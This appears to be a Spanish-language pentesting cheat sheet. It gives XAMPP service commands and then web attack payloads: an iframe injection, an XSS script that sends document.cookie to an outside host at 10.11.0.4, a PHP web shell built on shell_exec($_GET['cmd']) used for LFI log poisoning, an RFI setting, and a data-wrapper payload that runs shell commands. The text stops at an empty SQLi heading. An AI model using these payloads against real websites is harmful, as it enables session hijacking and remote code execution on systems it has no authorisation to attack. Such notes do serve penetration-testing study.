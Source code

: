 #### Iniciar y detener servicio mysql
```
c:\xampp\mysql_start.bat &
c:\xampp\mysql_stop.bat
```

#### Iniciar sesion en mysql
```
c:\xampp\mysql\bin\mysql.exe -u noroot -p
```

#### Iniciar y detener apache
```
c:\xampp\apache_start.bat
C:\xampp\apache_stop.bat
```

#### Iniciar y detener ambos servicios
```
C:\xampp\xampp_start.exe
C:\xampp\xampp_stop.exe
```

-----

### XSS
- XSS reflejado
- XSS persistente
- XSS basado en DOM

#### Content Injection
```
<iframe src=http://10.11.0.4/report height="0" width=”0”></iframe> 
```

#### Robo de cookies e información de sesión
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script> 
```

----

### LFI
```
APACHE LOG
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

### RFI
```
allow_url_include=On
```

### Servidores HTTP
```
> python -m SimpleHTTPServer 8000
> python3 -m http.server 8000
> php -S 0.0.0.0:8000
> ruby -run -e httpd . -p 8000
> busybox httpd -f -p 8000
```

### PHP wrappers
```
http://10.11.0.22/menu.php?file=data:text/plain,hello world
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

----

### SQLi
